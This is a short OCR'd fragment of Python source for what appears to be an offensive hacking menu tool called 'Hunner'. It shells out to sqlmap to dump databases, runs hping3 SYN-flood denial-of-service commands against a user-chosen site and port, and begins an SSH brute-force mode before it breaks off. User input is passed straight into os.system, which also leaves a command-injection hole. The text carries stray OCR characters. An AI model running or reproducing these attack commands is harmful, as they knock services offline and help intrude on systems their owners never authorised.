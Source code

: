 ```````````````````¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶

				os.system('sqlmap -u '+site+' --dbs')

			else:

				print(W+'<< Good by >> '+E)

	except:

		print(F+'Fatal error'+E)





def Dos():

	os.system('clear')

	banner()

	print('Enter site:')

	site = input(B+'Hunner»Dos»'+E)

	print('''Enter level:

		1) High dos

		2) Dos port

 		3) Low dos''')

	level = int(input(B+'Hunner»Dos»Level»'+E))

	if level == 1:

		os.system('hping3 -S -P --flood -V '+site)

	if level == 2:

		port = input(B+'Hunner»Dos»Level»Port»'+E)

		os.system('hping3 -S -P --flood -V -p '+port+' '+ site)

	if level == 3:

		os.system('python3 modules/dos.py '+site)



def SSH_Brut():

	os.system('clear')

	banner()

	try:

		print(F+'Brutforse ssh mode!!'+E)

		print('Enter target host:')

```````````````````